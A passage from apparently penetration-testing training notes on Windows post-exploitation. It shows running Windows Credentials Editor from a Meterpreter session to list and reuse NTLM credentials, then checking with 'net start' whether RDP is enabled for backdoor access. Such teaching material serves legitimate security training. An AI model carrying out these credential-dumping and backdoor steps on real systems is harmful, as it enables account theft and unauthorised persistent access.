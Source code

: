       As you will see, you can run many different tasks and operations that will reveal very useful information.

  - Windows Credentials Editor
    Another very useful tool that we can use in this step is [WCE][http://www.ampliasecurity.com/research/windows-credentials-editor/] (Windows Credentials Editor). Since it is a windows binary, you will have to upload it on the remote machine and then run it from the meterpreter session.
      ```
      meterpreter > execute -i -f wce.exe -a -h
      Process 3628 created.
      Channel 4 created.
      WCE v1.42beta (x64) (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Herman Och
      Use -h for help
      Options:
              -l       List logon sessions and NTLM credentials (default).
              -s       Changes NTLM credentials of current logon session.
                       Parameters: <UserName>:<DomainName>:<LMHash>:<NTHash>.
              -r       List logon sessions and NTLM credentials indefinitely.
                       Refreshes every 5 seconds if new sessions are found.
                       Optional: -r<refresh interval>.
              -c       Run <cmd> in a new session with the specified NTLM credentials.
                       Paramters: <cmd>
              -e       Lists logons sessions NTLM credentials indefinitely.
      ```

      We will not dig deeper into this tool, but as you can see from its help manual, it offers many options and commands to work with windows credentials, logon sessions, Kerberos, and so on.

      We suggest you try it in a test environment in order to get familiar with it.

    At this time we should have a set of working credentials.
    What we want to do now is to check if the RDP Service is active on the target, since we want to use it for backdoor access.

    We already have a session on the remote machine and we can check enabled services by running the following command:
      ```
      net start
      ```

      **Note:**
        Remember that you can open a Windows command prompt from a Meterpreter shell by running the following command: `shell`

    Here is an example of what you can get with the `net start` command:
      ```
      C:\Windows\system32> net start
      net start
      These Windows services are started:

        Application Experience
        Application Information
        Background Intelligent Transfer Service
        Base Filtering Service
        ...
        Remote Desktop Configuration
        Remote Desktop Services
        Remote Desktop Services UserMode Port Redirector
      ```
